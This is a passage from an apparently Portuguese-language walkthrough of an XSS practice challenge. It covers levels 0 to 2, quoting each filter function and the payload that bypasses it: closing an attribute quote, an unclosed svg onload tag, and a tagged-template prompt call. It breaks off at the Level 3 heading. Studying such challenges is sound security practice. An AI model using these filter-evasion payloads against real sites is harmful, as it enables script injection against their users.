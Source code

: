 `"><script>prompt(1)</script>`

Nesse caso, utilizaremos `"` para fechar as aspas do input, e enviar o código com a tag script.

[![Print2.png](https://i.postimg.cc/QCP5RbXk/Print2.png)](https://postimg.cc/7J3fzSJf)

### Level 1

Aqui está o enunciado do nível 1:

```
 Text Viewer
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}      
```

Nesse nível, qualquer tag html completa que enviarmos será removida. A solução nesse caso é a seguinte:

`<svg/onload=prompt(1)`

Utilizaremos o próprio símbolo `>` dentro do código para fechar a tag.

[![Print3.png](https://i.postimg.cc/q7jNPLwh/Print3.png)](https://postimg.cc/gwLcR3fm)

### Level 2

Aqui está o enunciado do nível 2:

```
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}        
```

Essa questão remove os símbolos `(` e `=`. Ou seja, a resolução utilizada foi a seguinte:

`<script>prompt.call`${1}`</script>`

Ela utiliza uma adaptação para realizar a mesma função em js, uma maneira diferente de realizar o mesmo.

[![Print4.png](https://i.postimg.cc/kgCF9TQf/Print4.png)](https://postimg.cc/HVS794Py)

### Level 3

Aqui está o enunciado do nível 3:
